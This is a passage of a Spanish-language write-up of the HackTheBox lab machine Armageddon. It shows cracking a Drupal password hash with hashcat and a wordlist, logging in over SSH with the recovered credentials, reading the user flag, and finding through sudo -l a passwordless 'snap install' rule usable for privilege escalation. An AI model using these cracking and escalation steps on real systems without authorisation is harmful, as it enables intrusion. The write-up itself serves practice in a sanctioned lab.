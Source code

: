 Pruebo a crackear el hash con john y lo consigo:

```bash

┌──[z3r0byte@z3r0byte]─[~/CTF/HTB/Armageddon/content]
└──╼ $hashcat -a 0 -m 7900 hash /home/z3r0byte/wordlists/rockyou.txt

[...]

$S$DgLXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXRt:XXXXXXXX

[...]

```

pruebo a conectarme por SSH con las credenciales que tengo y tengo exito:

```bash

[brucetherealadmin@armageddon ~]$ ifconfig | grep "inet 10"

        inet 10.10.10.233  netmask 255.255.255.0  broadcast 10.10.10.255
```

A partir de aqui ya podriamos ver la flag user.txt:

```bash

[brucetherealadmin@armageddon ~]$ cat user.txt 

e46XXXXXXXXXXXXXXXXXXXXXXXX001

```
# root.txt

Enumero el sistema para ver si hay algun vector para escalar privilegios y me encuentro con que podemos paquetes de forma privilegiada con snap:

```bash

[brucetherealadmin@armageddon ~]$ sudo -l

Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
    
```
